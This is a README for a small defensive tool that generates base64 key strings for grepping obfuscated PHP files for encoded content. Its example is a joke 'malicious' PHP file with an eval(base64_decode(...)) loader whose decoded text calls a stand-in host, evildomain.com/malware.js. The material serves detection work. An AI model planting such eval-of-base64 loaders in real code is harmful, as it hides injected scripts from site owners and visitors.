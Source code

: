 # base64-keystrings.py
## Find key search strings to locate base64-encoded versions of ASCII strings.

*For a detailed breakdown of what this tool is built to accomplish, please see the article on my [blog](https://s7n.co/b64strings)*

When working with obfuscated files (esp. PHP), it's common to find large blocks of base64-encoded code. It's not always possible to programmatically identify, decode, and subsequently test internal base64 blocks when looking for a particular string. This utility can be used to generate the three possible key strings of your intended search pattern (For an explanation of why there are always three strings, where they come from, etc, see my [article](https://s7n.co/b64strings)). Depending on the character count preceding the position of your search term in a file, one of the generated key strings will be present in the base64 block. 

### Usage

```
$ base64-keystrings.py "This is an input string!"
VGhpcyBpcyBhbiBpbnB1dCBzdHJpbmch
aXMgaXMgYW4gaW5wdXQgc3RyaW5n
aGlzIGlzIGFuIGlucHV0IHN0cmlu

$ base64-keystrings.py --file file.txt
VGhpcyBpcyBhIHRleHQgZmls
aXMgaXMgYSB0ZXh0IGZp
aGlzIGlzIGEgdGV4dCBmaWxl

$ cat file.txt | base64-keystrings.py --stdin
VGhpcyBmaWxlIHdhcyBwaXBlZCB0byBzdGRp
aXMgZmlsZSB3YXMgcGlwZWQgdG8gc3RkaW4h
aGlzIGZpbGUgd2FzIHBpcGVkIHRvIHN0ZGlu
```

### Examples

Test to see if a call to "evildomain.com/malware.js" is present in the following obfuscated file:

```php
<?php
/* 
 * Totally Legit PHP File
 * Version 1.1
 * 
 * Definitely necessary for your website to run. Don't touch it.
 */

 // This file is encoded for copyright protection.
 // Don't decode it or I'll sue you.
 eval(base64_decode(Ly8gSGFoYSB0aGV5J2xsIG5ldmVyIGZpbmQgbWUhCmhhY2tpbmdNYWluZnJhbWUoKTsKaW5qZWN0aW5nQ29kZSgpOwpicm93c2VyVGFrZW92ZXIoJ2h0dHA6Ly9ldmlsZG9tYWluLmNvbS9tYWx3YXJlLmpzJyk7));
```

```
$ base64-keystrings.py "evildomain.com/malware.js"
ZXZpbGRvbWFpbi5jb20vbWFsd2FyZS5q
aWxkb21haW4uY29tL21hbHdhcmUu
dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz

$ grep "ZXZpbGRvbWFpbi5jb20vbWFsd2FyZS5q" badfile.txt

$ grep "aWxkb21haW4uY29tL21hbHdhcmUu" badfile.txt

$ grep "dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz" badfile.txt
eval(base64_decode(Ly8gSGFoYSB0aGV5J2xsIG5ldmVyIGZpbmQgbWUhCmhhY2tpbmdNYWluZnJhbWUoKTsKaW5qZWN0aW5nQ29kZSgpOwpicm93c2VyVGFrZW92ZXIoJ2h0dHA6Ly9ldmlsZG9tYWluLmNvbS9tYWx3YXJlLmpzJyk7));
```

As we can see, the string "dmlsZG9tYWluLmNvbS9tYWx3YXJlLmpz" was identified in the file! Applied against a large PHP framework where a code injection could be in a huge assortment of locations, recursive searches could be performed with the generated key strings to assist in locating obfuscated code. 

### Upcoming Features
[] Add file search features to the script so manual grepping is no longer required
